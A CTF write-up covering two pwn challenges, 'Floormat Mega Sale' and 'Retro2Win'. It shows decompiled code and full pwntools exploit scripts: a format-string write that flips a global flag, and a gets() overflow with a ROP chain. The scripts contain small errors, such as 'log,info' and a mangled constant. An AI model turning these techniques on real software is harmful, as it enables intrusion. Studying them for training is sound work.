


import PostFileDownload from "../../../components/PostFileDownload.astro";

## Floormat Mega Sale

> The Floor Mat Store is running a mega sale, check it out!
>
> Author: CryptoCat

<PostFileDownload name="2025-1337up-live-floormat-sale.zip" />

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

A simple shop challenge, the goal is to buy the exclusive employee mat:

```c
  setvbuf(stdout,(char *)0x0,2,0);
  local_48[0] = "1. Cozy Carpet Mat - $10";
  local_48[1] = "2. Wooden Plank Mat - $15";
  local_48[2] = "3. Fuzzy Shag Mat - $20";
  local_48[3] = "4. Rubberized Mat - $12";
  local_28 = "5. Luxury Velvet Mat - $25";
  local_20 = "6. Exclusive Employee-only Mat - $9999";
  local_10 = getegid();
```

The problem is, attempting to buy the Exclusive Employee-only Mat calls a special check for the employee variable:

```c
  if ((0 < local_14c) && (local_14c < 7)) {
    do {
      iVar1 = getchar();
    } while (iVar1 != 10);
    puts("\nPlease enter your shipping address:");
    fgets(local_148,0x100,stdin);
    puts("\nYour floor mat will be shipped to:\n");
    printf(local_148);
    if (local_14c == 6) {
      employee_access();
    }
    return 0;
  }
```

```c
void employee_access(void)

{
  char local_58 [72];
  FILE *local_10;

  if (employee == 0) {
    puts("\nAccess Denied: You are not an employee!");
  }
  else {
```

Since the employee variable is global, we can make a format string payload using pwntools and input it as the "Shipping Address". Full script:

```python
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'floormat_sale')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or 'riggedslot2.ctf.intigriti.io'
port = int(args.PORT or 1339)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
# break *employee_access
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

EMPLOYEE_VAR = 0x000000000040408c
log.success(f'Employee Var: {p64(EMPLOYEE_VAR)}')

payload = fmtstr_payload(10, {EMPLOYEE_VAR : 1})

log.info(io.clean())
io.sendline(b'6')
log.info(io.clean())
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

I forgot to take a screenshot of myself solving the remote so here's the image of me solving it in the local environment.



## Retro2Win

> So retro.. So winning..
>
> Author: CryptoCat

<PostFileDownload name="2025-1337up-live-retro2win.zip" />

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Looks like a simple ret2win. Decompiling the challenge binary in Ghidra tells me that there is a hidden cheat mode:

```c
undefined8 main(void)

{
  int local_c;

  do {
    while( true ) {
      while( true ) {
        show_main_menu();
        __isoc99_scanf(&DAT_00400c19,&local_c);
        getchar();
        if (local_c != 2) break;
        battle_dragon();
      }
      if (2 < local_c) break;
      if (local_c == 1) {
        explore_forest();
      }
      else {
LAB_0040093b:
        puts("Invalid choice! Please select a valid option.");
      }
    }
    if (local_c == 3) {
      puts("Quitting game...");
      return 0;
    }
    if (local_c != 0x539) goto LAB_0040093b;
    enter_cheatcode(); // LOOK HERE
  } while( true );
}
```

0x539 is 1337, so I just had to enter 1337 to enter the cheatcode function which looks like this:

```c
void enter_cheatcode(void)

{
  char local_18 [16];

  puts("Enter your cheatcode:");
  gets(local_18);
  printf("Checking cheatcode: %s!\n",local_18);
  return;
}
```

Simple buffer overflow with gets, so I aimed for the cheat mode which needed 2 parameters:

```c
void cheat_mode(long param_1,long param_2)

{
  char *pcVar1;
  char local_58 [72];
  FILE *local_10;

  if ((param_1 == 0x2323232323232323) && (param_2 == 0x4 242424242424242)) {
    puts("CHEAT MODE ACTIVATED!");
    puts("You now have access to secret developer tools...\n");
    local_10 = fopen("flag.txt","r");
    if (local_10 == (FILE *)0x0) {
      puts("Error: Could not open flag.txt");
    }
    else {
      pcVar1 = fgets(local_58,0x40,local_10);
      if (pcVar1 != (char *)0x0) {
        printf("FLAG: %s\n",local_58);
      }
      fclose(local_10);
    }
  }
  else {
    puts("Unauthorized access detected! Returning to main men u...\n");
  }
  return;
}
```

Heres both registers that are used for the parameter:

```
0040073e  48 89 7d a8         MOV            qword ptr [RBP  +  local_60 ],RDI
00400742  48 89 75 a0         MOV            qword ptr [RBP  +  local_68 ],RSI
```

The full ROP chain can be combined into one script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'retro2win')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or 'retro2win.ctf.intigriti.io'
port = int(args.PORT or 1338)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
break *enter_cheatcode+58
# break *cheat_mode+16
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()
enter_cheat_mode = b'1337'
cheat_mode = 0x0000000000400736
POP_RDI = 0x00000000004009b3
param1 = 0x2323232323232323
POP_RSI_R15 = 0x00000000004009b1
param2 = 0x4242424242424242

log,info(io.clean())
io.sendline(enter_cheat_mode)
log.info(io.clean())

payload = flat(
    cyclic(24, n=8),
    POP_RDI,
    param1,
    POP_RSI_R15,
    param2,
    0x0,
    cheat_mode,
)
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

Again, I forgot to take a screenshot of solving the remote challenge, so here's me doing it in a local environment:


